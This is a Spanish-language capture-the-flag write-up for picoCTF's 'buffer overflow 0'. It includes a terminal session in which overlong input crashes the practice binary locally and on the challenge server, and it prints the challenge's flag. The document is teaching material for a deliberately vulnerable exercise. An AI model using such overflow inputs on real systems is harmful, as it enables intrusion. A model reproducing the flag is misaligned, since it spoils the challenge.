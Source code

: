 # buffer overflow 0


## Descripción
Smash the stackLet's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/174/vuln). You can view source [here](https://artifacts.picoctf.net/c/174/vuln.c). And connect with it using:`nc saturn.picoctf.net 61481`

## Pistas
- How can you trigger the flag to print?
- If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
- Run `man gets` and read the BUGS section. How many characters can the program really read?

## Solución

- Para obtener la bandera hay que desbordar el buffer por lo tanto hay que ingresar mas de 100 caracteres:
``` bash
┌──(kali㉿kali)-[~/Descargas/BE]
└─$ ls
vuln  vuln.c
                                                                            
┌──(kali㉿kali)-[~/Descargas/BE]
└─$ ls -la
total 28
drwxr-xr-x 2 kali kali  4096 may 17 21:59 .
drwxr-xr-x 4 kali kali  4096 may 17 21:58 ..
-rw-r--r-- 1 kali kali 16016 may 17 21:58 vuln
-rw-r--r-- 1 kali kali   808 may 17 21:58 vuln.c
                                                                            
┌──(kali㉿kali)-[~/Descargas/BE]
└─$ chmod +x vuln
                                                                            
┌──(kali㉿kali)-[~/Descargas/BE]
└─$ file vuln    
vuln: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=b53f59f147e1b0b087a736016a44d1db6dee530c, for GNU/Linux 3.2.0, not stripped
                                                                            
┌──(kali㉿kali)-[~/Descargas/BE]
└─$ ./vuln
Please create 'flag.txt' in this directory with your own debugging flag.
                                                                            
┌──(kali㉿kali)-[~/Descargas/BE]
└─$ echo 'flag{dummienflag}' > flag.txt
                                                                            
┌──(kali㉿kali)-[~/Descargas/BE]
└─$ ./vuln
Input: hooooooolaaaaaaa
The program will exit now
                                                                            
┌──(kali㉿kali)-[~/Descargas/BE]
└─$ ./vuln
Input: hhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhoooooooooooooooooooooooooooooooooooooooooolllllllllllllllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
flag{dummienflag}

                                                                            
┌──(kali㉿kali)-[~/Descargas/BE]
└─$ nc saturn.picoctf.net 61481
Input: hhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooollllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef7314c6}
                                                                            
┌──(kali㉿kali)-[~/Descargas/BE]
└─$ 


``` 

## Bandera 
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef7314c6}


